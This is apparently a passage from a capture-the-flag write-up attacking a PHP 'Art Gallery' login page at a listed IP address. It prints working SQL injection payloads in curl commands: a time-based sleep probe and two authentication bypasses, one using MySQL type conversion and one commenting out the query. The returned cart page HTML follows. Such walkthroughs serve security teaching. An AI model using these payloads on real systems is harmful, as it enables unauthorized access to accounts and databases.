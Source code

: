 
The `admin` username triggers a WAF (in either params):
```console
$ curl --data-raw "username=admin&password=whatever" http://34.66.139.33/auth.php
<tr><td>ofcourse they're blocked</td></tr>
```

Sending the POST request to Burp scanner reveals that both params are vuln to SQLi:
```console
$ time curl -s -o/dev/null --data-raw "username=blah'%2b(select*from(select(sleep(2)))a)%2b'&password=x" http://34.66.139.33/auth.php 

real    0m2.259s
user    0m0.004s
sys     0m0.006s
```

We can bypass the auth via [implicit type conversion](http://vagosec.org/2013/04/mysql-implicit-type-conversion/):
```console
$ curl --data-raw "username=a'%2b'b&password=a'%2b'b" http://34.66.139.33/auth.php
welcome!!
```

Or by finding that `test` is a valid username and commenting the rest of the query:
```console
$ curl --data-raw "username=test'#&password=whatev" http://34.66.139.33/auth.php
welcome!!
```

Once logged-in as `test'#` there is a link to a `/cart.php` page:
```html
<!DOCTYPE html>
<html>
<head>
  <title>Home</title>
  <link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.1/css/all.css">
  <link rel='stylesheet' href='common.css'>
</head>
<body class="loggedin">
  <nav class="navtop">
    <div>
      <h1>Art Gallery</h1>
      <a href="home.php"><i class="fa fa-home" aria-hidden="true"></i>Home</a>
      <a href="logout.php"><i class="fas fa-sign-out-alt"></i>Logout</a>
    </div>
  </nav>
  <div class="content">
    <h2>Cart</h2>
    <div>
      <p>welcome back, test'# !</p>
      <table>
        <tr>
          <td>Username:</td>
          <td>test'#</td>
        </tr>
<!--        <tr>
          <td>Email:</td>
          <td></td>
        </tr>-->
      </table>    
    </div>
  </div>
</body>
</html>
```
But now we feel stuck so let's go back to the SQLi.
